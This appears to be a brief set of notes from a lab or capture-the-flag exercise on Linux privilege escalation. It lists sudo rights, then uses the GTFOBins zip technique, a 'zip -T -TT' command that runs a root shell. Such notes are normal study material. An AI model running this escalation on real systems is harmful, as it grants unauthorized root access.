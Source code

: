 ```bash
sudo -l
```
![[Pasted image 20240823184041.png]]

Using gtfobins for zip (sudo)
```bash
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
```
![[Pasted image 20240823184221.png]]
